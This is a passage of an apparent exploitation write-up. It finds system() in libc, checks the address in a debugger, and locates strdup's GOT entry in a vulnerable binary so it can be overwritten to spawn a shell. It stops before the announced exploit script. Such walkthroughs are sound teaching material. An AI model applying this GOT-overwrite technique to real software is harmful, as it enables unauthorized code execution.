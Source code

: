 The base address of the used libc is at `0xf7dfd000`.  

Next we want to find a way to pop a shell.  
What could be better than `system()`:  

    $ readelf -s /lib/i386-linux-gnu/libc-2.23.so | grep system
        245: 00112ed0    68 FUNC    GLOBAL DEFAULT      13 svcerr_systemerr@@GLIBC_2.0
        627: 0003ada0    55 FUNC    GLOBAL DEFAULT      13 __libc_system@@GLIBC_PRIVATE
        1457: 0003ada0    55 FUNC    WEAK   DEFAULT     13 system@@GLIBC_2.0            <-

`system()` offset in glibc is `0x3ada0`.  

Let's add up those to addresses to get the final address of `system()` in the library.   

> 0xf7dfd000 + 0x3ada0 = 0xf7e37da0

Let's check if we didn't fail our maths:

    gef➤ x 0xf7e37da0
    0xf7e37da0 <__libc_system>:	0x8b0cec83
    gef➤

Looks good! Sweet!  
> Note: Reminder on how [system()](https://github.com/lattera/glibc/blob/master/sysdeps/posix/system.c) works.  

Next on our list is to find the address of `strdup()` in the GOT to be able to overwrite it!  
 
Let's take a look at the assembly snippet from the `vuln()` function for a second:  
        
       ...
       0x080485c9 <+83>:	sub    esp,0xc
       0x080485cc <+86>:	lea    eax,[ebp-0x20c]
       0x080485d2 <+92>:	push   eax
    => 0x080485d3 <+93>:	call   0x80483f0 <strdup@plt>
       0x080485d8 <+98>:	add    esp,0x10
       0x080485db <+101>:	nop
       ...


    gef➤  disassemble 0x80483f0
    Dump of assembler code for function strdup@plt:
       0x080483f0 <+0>:	jmp    DWORD PTR ds:0x804a014
       0x080483f6 <+6>:	push   0x10
       0x080483fb <+11>:	jmp    0x80483c0
    End of assembler dump.
    gef➤  


`0x804a014` is the address we want to overwrite!  


#### Exploit

Following now is a quick script I put together to get a shell without disrupting any normal control flow of the program.  
The bytes to overwrite `strdup()` to get `system()` where manually calculated by trial and error.
First you want to check where on the stack your buffer arguments reside by doing something like this:
